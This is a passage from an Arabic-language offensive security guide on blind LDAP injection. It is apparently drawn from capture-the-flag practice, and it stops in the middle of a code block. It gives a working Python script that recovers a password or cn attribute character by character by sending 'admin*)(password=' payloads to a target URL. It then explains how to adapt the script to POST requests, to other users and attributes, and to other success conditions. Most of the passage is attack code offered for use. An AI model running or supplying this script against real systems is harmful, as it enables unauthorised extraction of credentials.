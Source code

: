 ### 2. سكربتات الاستغلال الأعمى
الهدف هو تخمين قيمة خاصية (مثل كلمة المرور أو `cn`) حرفًا بحرفًا باستخدام الاستغلال الأعمى. السكربت يرسل طلبات تحتوي على استعلامات مثل `password=M*`, `password=MA*`, ويحلل الاستجابات لتحديد الأحرف الصحيحة.

#### سكربت Python للاستغلال الأعمى
```python
#!/usr/bin/python3
import requests
import string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
url = "http://TARGET_URL.com?action=dir&search="  # استبدل بـ URL الموقع
for i in range(50):  # الحد الأقصى لطول القيمة
    print("[i] Looking for character " + str(i + 1))
    for char in alphabet:
        payload = "admin*)(password=" + flag + char
        r = requests.get(url + payload)
        if "TRUE CONDITION" in r.text:  # استبدل TRUE CONDITION بنص يظهر عند النجاح
            flag += char
            print("[+] Flag: " + flag)
            break
```

- **الإعداد**:
  - استبدل `http://TARGET_URL.com?action=dir&search=` بعنوان URL الصحيح ومعايير الإدخال (مثل `http://example.com/search?query=`).
  - استبدل `'TRUE CONDITION'` بنص يظهر في الاستجابة عند تطابق الشرط (مثل `"Success"`, أو استخدم `r.status_code == 200`).
  - عدّل `alphabet` إذا كنت تريد تضمين أحرف أو رموز إضافية:
    ```python
    alphabet = string.ascii_letters + string.digits + "!@#$%^&*()_+-=[]{}|;:,.<>?"
    ```
  - عدّل الحد الأقصى لطول القيمة (`50`) إذا كنت تعتقد أن القيمة أقصر أو أطول.
- **التعديلات الممكنة**:
  - **تغيير نوع الطلب**:
    - إذا كان الموقع يستخدم POST:
      ```python
      r = requests.post(url, data={'search': 'admin*)(password=' + flag + char})
      ```
  - **استهداف خاصية أخرى**:
    - لاستهداف `cn` بدلاً من `password`:
      ```python
      payload = "admin*)(cn=" + flag + char
      ```
  - **تغيير المستخدم**:
    - لاستهداف مستخدم غير `admin` (مثل `administrator`):
      ```python
      payload = "administrator*)(password=" + flag + char
      ```
  - **تغيير شرط النجاح**:
    - إذا كنت تستخدم رمز حالة HTTP:
      ```python
      if r.status_code == 200:
          flag += char
      ```
    - إذا كنت تستخدم طول الاستجابة:
      ```python
      if len(r.text) > 100:  # استبدل 100 بالطول المناسب
          flag += char
      ```
  - **إضافة رؤوس HTTP**:
    ```python